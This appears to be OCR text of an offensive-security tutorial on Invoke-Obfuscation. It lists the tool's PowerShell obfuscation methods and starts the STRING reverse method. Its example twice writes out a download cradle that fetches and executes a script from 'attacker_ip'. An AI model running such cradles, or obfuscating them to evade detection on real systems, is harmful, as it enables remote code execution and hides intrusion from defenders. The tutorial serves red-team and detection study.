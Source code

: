 
We have several different options we can use to obfuscate our PowerShell commands:

TOKEN - Obfuscate PowerShell command Tokens

AST - Obfuscate PowerShell Ast nodes (PowerShell 3.0 and greater)

STRING - Obfuscate entire command as a String

ENCODING - Obfuscate entire command via Encoding

COMPRESS - Convert entire command to one-liner and Compress

LAUNCHER - Obfuscate command args w/Launcher techniques (run once at end)



For our purposes, we'll show some use cases with the String and Encoding methods

First, in order to tell Invoke-Obfuscation what we'd like to obfuscate exactly, we first need to use the
SET SCRIPTBLOCK command

As an example of a script block we can use a standard Net.WebClient download cradle

iex (New-Object Net.WebClient).downloadstring("http://attacker_ip/Get_ProcessPaths.ps1")

The download cradle, when executed on our target, will use the Net.WebClient class, and will download and
execute our "Get-ProcessPaths.ps1" script from our attacker machine, which will simply list running
processes on our target


Lets set that as the SCRIPTBLOCK in Invoke-Obfuscation as the command we want to obfuscate with the 
SET SCRIPTBLOCK command 


SET SCRIPTBLOCK iex (New-Object Net.WebClient).downloadstring("http://attacker_ip/Get-ProcessPaths.ps1")


# String Method

Once we've told Invoke-Obfuscation what we'd like to obfuscate with the SET SCRIPTBLOCK command, we can
select a method we'd like to use. Lets use the STRING method to start as an example. We simply type 
STRING and are presented with several options for that method:


Invoke-Obfuscation> STRING


We have 3 options with the STRING obfuscation method shown in our PowerShell session


STRING\1 	Concatenate entire command
STRING\2 	Reorder entire command after concatenating
STRING\3 	Reverse entire command after concatenating


Lets go with option 3, the Reverse method

The Reverse method will first concatenate our PowerShell command line and then reverse the entire string
